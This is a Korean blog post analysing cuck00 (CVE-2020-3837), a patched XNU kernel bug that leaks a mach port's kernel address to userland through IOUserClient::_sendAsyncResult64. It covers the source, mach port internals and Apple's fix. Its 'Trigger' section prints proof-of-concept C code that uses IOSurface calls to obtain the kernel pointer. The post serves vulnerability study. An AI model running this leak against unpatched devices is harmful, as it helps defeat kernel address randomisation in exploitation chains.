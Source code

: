 ```yaml
---
layout: post
title: "쿸쿠,,,"
image: /img/apple.PNG
tags: [iOS, macOS, kernel, CVE]
---
```


# cuck00 (CVE-2020-3837)
2020년 1월에 패치 된 커널 info leak 취약점 입니다.  
Siguza의 [블로그 글](https://siguza.github.io/cuck00/)을 읽고 정리 한 내용입니다.  

**20 year old *OS kernel bug!!**  

해당 취약점은 2000년에 apple opensource에 처음 공개되었던 [xnu-123.5](https://opensource.apple.com/source/xnu/xnu-123.5/) 버전부터 존재해온 취약점입니다. 지난번에는 [17살 된 리눅스 취약점](https://rls1004.github.io/2020-08-23-17-year-old-linux-kernel-bug/)에 대해 포스팅 했는데 이 취약점은 무려 20살 입니다.  

예상치 못한 곳에서 튀어나온 버그여서 "cuck00"라는 이름이 붙었습니다.  

![cuck00](/img/202012/cuck00_02.png)

**Fixed in**  
iOS 13.3.1: https://support.apple.com/en-us/HT210918  
macOS 10.15.3: https://support.apple.com/en-us/HT210919  

**bug tracker**는 [여기](https://bugs.chromium.org/p/project-zero/issues/detail?id=1969)  

## Bug

IOKit 드라이버는 콜백 메커니즘을 자주 사용하며, 일반적으로 <font color='SALMON'>mach port</font>를 중심으로 구현됩니다. 이를 위한 표준은 없지만 IOUserClient에 의해 제공되는 드라이버의 기능들은 <font color='SALMON'>OSAsyncReference64</font>를 사용합니다. OSAsyncReference64의 정의를 따라가보면 io_user_reference_t의 배열이라는 것을 알 수 있습니다.  
```cpp
enum {
	kOSAsyncRef64Count  = 8,
	kOSAsyncRef64Size   = kOSAsyncRef64Count * ((int) sizeof(io_user_reference_t))
};
typedef io_user_reference_t OSAsyncReference64[kOSAsyncRef64Count];
```
io_user_reference_t는 uint64_t 입니다. 이 타입명을 통해 userland로부터 값이 설정된다는 것을 알 수 있습니다.  

IOKit 드라이버는 OSAsyncReference64 구조체를 수동으로 만들거나 `IOUserClient::setAsyncReference64`를 호출할 수 있습니다. 사용자 영역으로의 메시지 전송은 
`IOUserClient::_sendAsyncResult64`에 의해 수행 됩니다. ([source](https://opensource.apple.com/source/xnu/xnu-6153.11.26/iokit/Kernel/IOUserClient.cpp.auto.html))  

```cpp
IOReturn
IOUserClient::_sendAsyncResult64(OSAsyncReference64 reference,
    IOReturn result, io_user_reference_t args[], UInt32 numArgs, IOOptionBits options)
{
	struct ReplyMsg {
		mach_msg_header_t msgHdr;
		union{
			struct{
				OSNotificationHeader     notifyHdr;
				IOAsyncCompletionContent asyncContent;
				uint32_t                 args[kMaxAsyncArgs];
			} msg32;
			struct{
				OSNotificationHeader64   notifyHdr;
				IOAsyncCompletionContent asyncContent;
				io_user_reference_t      args[kMaxAsyncArgs] __attribute__ ((packed));
			} msg64;
		} m;
	};
	ReplyMsg      replyMsg;
	mach_port_t   replyPort;
	kern_return_t kr;

	// If no reply port, do nothing.
	replyPort = (mach_port_t) (reference[0] & ~kIOUCAsync0Flags);
	// ↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑
	// ↑↑↑↑↑ 여기 보세요 ↑↑↑↑↑
	// ↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑
	if (replyPort == MACH_PORT_NULL) {
		return kIOReturnSuccess;
	}

	if (numArgs > kMaxAsyncArgs) {
		return kIOReturnMessageTooLarge;
	}

	bzero(&replyMsg, sizeof(replyMsg));
	replyMsg.msgHdr.msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_COPY_SEND /*remote*/,
	    0 /*local*/);
	replyMsg.msgHdr.msgh_remote_port = replyPort;
	replyMsg.msgHdr.msgh_local_port  = NULL;
	replyMsg.msgHdr.msgh_id          = kOSNotificationMessageID;
	if (kIOUCAsync64Flag & reference[0]) {
		replyMsg.msgHdr.msgh_size =
		    sizeof(replyMsg.msgHdr) + sizeof(replyMsg.m.msg64)
		    - (kMaxAsyncArgs - numArgs) * sizeof(io_user_reference_t);
		replyMsg.m.msg64.notifyHdr.size = sizeof(IOAsyncCompletionContent)
		    + numArgs * sizeof(io_user_reference_t);
		replyMsg.m.msg64.notifyHdr.type = kIOAsyncCompletionNotificationType;
		bcopy(reference, replyMsg.m.msg64.notifyHdr.reference, sizeof(OSAsyncReference64));
		// ↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑
		// ↑↑↑↑↑ 여기 보세요 ↑↑↑↑↑
		// ↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑

		replyMsg.m.msg64.asyncContent.result = result;
		if (numArgs) {
			bcopy(args, replyMsg.m.msg64.args, numArgs * sizeof(io_user_reference_t));
		}
	} else {
		[...]
	}

	[...]
}
```

이 함수는 OSAyncReference64를 가져와서 mach message를 구성하고 userland로 보냅니다. OSAsyncReference64의 첫 번째 요소는 `mach_port_t` 입니다. 여기서 문제가 발생하는데, 이 버그를 이해하기 위해서는 mach_port_t에 대한 지식이 필요합니다.  

mach_port_t는 mach port를 가리킵니다. mach port는 커널의 데이터 구조체를 가리키며, 이를 통해 리소스와 서비스에 대한 작업을 처리할 수 있고 메시지를 주고 받기 위한 통신 채널이 되기도 합니다.  

![mach port](/img/202012/cuck00_00.png)

<span style="background: linear-gradient(to top, #FFE400 50%, transparent 50%)">mach_port_t는 유저 영역과 커널 영역에서 각각 다른 형태로 저장됩니다.</span>  

유저 영역에서의 mach port는 mach port name으로 존재합니다. 커널에 할당되어 있는 mach port의 실제 주소는 유저 영역에서 드러나지 않습니다.  
커널 영역에서는 커널에 할당된 mach port인 struct ipc_port의 주소를 가리킵니다.  

![mach port](/img/202012/cuck00_01.png)

유저 영역에서 mach port name으로 무언가 작업을 요청하게 되면 해당 유저 task의 ipc space에서 ipc entry table을 참조하여 port name에 대해 조회합니다. port name은 24-bit의 entry index와 8-bit의 generation count로 구성되어 있습니다. entry index와 generation count 정보를 이용하여 커널은 port name에 해당하는 ipc_port_t의 주소를 찾아갈 수 있습니다.  

다시 취약점으로 돌아와보면,

```cpp
replyPort = (mach_port_t) (reference[0] & ~kIOUCAsync0Flags);
// reference의 첫 번째 필드는 mach_port_t
```
```cpp
bcopy(reference, replyMsg.m.msg64.notifyHdr.reference, sizeof(OSAsyncReference64));
// reference를 복사하여 mach message 구성
```

`IOUserClient::_sendAsyncResult64`함수는 <font color='SALMON'>raw pointer</font>로 존재하는 mach_port_t를 userland에게 전달하게 되는 것입니다.  

이 버그는 트리거 하는 방법도 굉장히 간단합니다. 해당 함수를 사용할 수 있는 IOKit 드라이버를 선택하여 함수를 호출하면 커널 포인터를 획득하게 됩니다.  

## Trigger

IOSruface 드라이버를 선택하여 취약점을 트리거 하는 방법입니다. ([source](https://github.com/Siguza/cuck00/blob/master/src/main.c#L106))  
`IOUserClient::_sendAsyncResult64` 호출이 가능한 다른 드라이버를 선택해도 되는데 여기서는 iOS와 macOS에 모두 존재하고 대부분의 context에서 사용할 수 있는 IOSurface를 선택했습니다.  

```c
    uint64_t in[3] = { 0, 0, 0 };
    ret = IOConnectCallAsyncStructMethod(client, IOSURFACE_SET_NOTIFY, port, refs, 8, in, sizeof(in), NULL, NULL);
    LOG("setNotify: %s", mach_error_string(ret));
    if(ret != KERN_SUCCESS) goto out;

    uint64_t id = surface.data.id;
    ret = IOConnectCallScalarMethod(client, IOSURFACE_INCREMENT_USE_COUNT, &id, 1, NULL, NULL);
    LOG("incrementUseCount: %s", mach_error_string(ret));
    if(ret != KERN_SUCCESS) goto out;

    ret = IOConnectCallScalarMethod(client, IOSURFACE_DECREMENT_USE_COUNT, &id, 1, NULL, NULL);
    LOG("decrementUseCount: %s", mach_error_string(ret));
    if(ret != KERN_SUCCESS) goto out;

    msg_t msg = { { 0 } };
    ret = mach_msg(&msg.head, MACH_RCV_MSG, 0, (mach_msg_size_t)sizeof(msg), port, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
    LOG("mach_msg: %s", mach_error_string(ret));
    if(ret != KERN_SUCCESS) goto out;

    result = msg.notify.ref[0] & ~3; // <-- leak port
```

- async 함수 중 하나를 사용하여 setNotify(external method 17)를 호출
- incrementUseCount(external method 14)를 호출하고 decrementUseCount(external method 15)를 호출
  - 실제로 무엇을 의도하고 있는지 모르겠지만 count가 0이 되면 메시지가 userland로 다시 전송 됨
- mach port에서 메시지를 받고 kernel pointer를 획득
  - 획득한 포인터는 메시지를 받은 mach port의 주소임


mach port의 포인터가 필요한 버그가 있거나 valid한 커널 포인터가 필요한 버그가 있다면 이 버그를 이용하여 커널 포인터를 획득할 수 있습니다.  

또한 Apple의 새로운 칩셋인 A14에서 <font color='SALMON'>MTE(Memory Tagging Extension)</font>가 도입된다는 얘기가 있었는데(실제로는 도입되지 않음), MTE는 data pointer의 상위 바이트에 몇 비트의 태깅 정보를 포함시키고, 포인터 접근시 하드웨어가 off-site storage에 대해 해당 태그를 검증하는 보호기법입니다. 메모리가 할당되거나 해제 될 때마다 태그를 변경하도록 하기 때문에 메모리 관련 버그를 방어하게 됩니다.  
하지만 mach port 포인터를 획득할 수 있다면 태그 정보도 같이 획득할 수 있게 됩니다.  
이 버그는 userland에 대한 자발적인 copyout이기 때문에 이를 보호하는 미티게이션은 없습니다.  


## Fix

```cpp
bcopy(&reference[1], &replyMsg.m.msg64.notifyHdr.reference[1], sizeof(OSAsyncReference64) - sizeof(reference[0]));
```
bcopy에서 첫 번째 8 바이트를 제외하고 복사하도록 패치가 이루어졌습니다. ([source](https://opensource.apple.com/source/xnu/xnu-6153.141.1/iokit/Kernel/IOUserClient.cpp.auto.html))  